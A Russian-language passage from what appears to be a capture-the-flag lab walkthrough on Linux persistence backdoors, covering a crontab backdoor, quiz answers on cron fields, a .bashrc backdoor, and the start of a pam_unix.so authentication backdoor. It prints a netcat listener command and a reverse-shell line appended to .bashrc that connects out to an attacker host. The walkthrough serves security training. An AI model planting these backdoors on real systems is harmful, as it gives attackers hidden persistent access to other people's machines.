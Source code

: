 Как только наша оболочка будет загружена, она будет запущена «bash», и мы получим оболочку!

*Не забудьте прослушать указанный вами порт с помощью "nc -nvlp <port>"*

Обратите внимание, что этот бэкдор на самом деле не скрыт, поскольку каждый может его увидеть, просто заглянув в /etc/crontab.

### Ответьте на вопросы ниже
Что означает буква «m» в cronjobs?
```commandline
minute
```
Что означает буква «h» в cronjobs?
```commandline
hour
```

## Задание 5
Давайте теперь перейдем к бэкдору ".bashrc"!

Если у пользователя в качестве оболочки входа используется bash, то при запуске интерактивного сеанса выполняется 
файл «.bashrc» в его домашнем каталоге. 

Поэтому, если вы знаете пользователей, которые входят в свою систему довольно часто, вы можете просто запустить эту 
команду, чтобы включить вашу обратную оболочку в их «.bashrc». 
`echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc`
Важно всегда держать ваш прослушиватель nc готовым, так как вы не знаете, когда ваш пользователь войдет в систему.
Эта атака очень коварна, поскольку никто на самом деле не думает проверять свой файл «.bashrc».
С другой стороны, вы не можете точно знать, войдет ли кто-либо из пользователей в свою систему, поэтому вам 
действительно придется ждать довольно долго. 

### Ответьте на вопросы ниже
Вы понимаете, что такое бэкдор-техника «.bashrc»!

```commandline
Ответ не нужен
```
### Задание 6
Давайте теперь перейдем к пятой и последней задней двери этой комнаты!

Помимо пяти показанных в этой комнате бэкдоров, доступно гораздо больше!

Хороший ресурс, который я нашел действительно полезным при создании этой комнаты: ссылка

Итак, теперь перейдем к пятому бэкдору.

Бэкдор, который мы собираемся рассмотреть, это: бэкдор pam_unix.so!

Если вы не знаете, что такое файл «pam_unix.so», то это просто один из многих файлов в Linux , отвечающих за аутентификацию.
